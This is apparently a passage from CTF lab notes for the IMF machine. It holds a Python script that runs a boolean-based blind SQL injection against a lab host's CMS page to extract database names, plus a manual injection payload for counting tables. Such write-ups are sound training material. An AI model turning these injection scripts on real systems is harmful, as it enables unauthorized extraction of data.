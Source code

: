
#Ctrl+C, define what to do after pressing SIGINT
signal.signal(signal.SIGINT, def_handler)

#Global variables
main_url = 'http://10.10.2.131/imfadministrator/cms.php?pagename=home'
characters = string.ascii_lowercase + '-_'

def makeRequest():
    cookies= {
            'PHPSESSID' : 'em7rebru0337e7ml01v5uqqpc0'
            }
    database = ""

    p1 = log.progress("Bruteforce")
    p1.status("Starting bruteforce process")

    time.sleep(2)

    p2 = log.progress("Databases")
    for dbs in range(0,5):
        for position_character in range(1, 30):
            for character in characters:
                sqli= main_url + f"'+and+(select+substring(schema_name,{position_character},1)+from+information_schema.schemata+limit+{dbs},1)='{character}"
                p2.status(sqli)
                r = requests.get(sqli, cookies=cookies)
                if "Welcome to the IMF Administration." in r.text:
                    database += character
                    p2.status(database)
                    break
        database += ","

if __name__ == '__main__':
    makeRequest()

Accounting to get tables
*home' and (select count(table_name) from information_schema.tables where table_schema='admin')='4*

4 return an False value so we can use BurpSuite tool Sniper to set many values
![[Pasted image 20240319182014.png]]

Based on length, there is only 1 table in admin database

#### Automation Script for Tables

#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, time, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Quitting...\n")
    sys.exit(1)


#Ctrl+C, define what to do after pressing SIGINT
signal.signal(signal.SIGINT, def_handler)
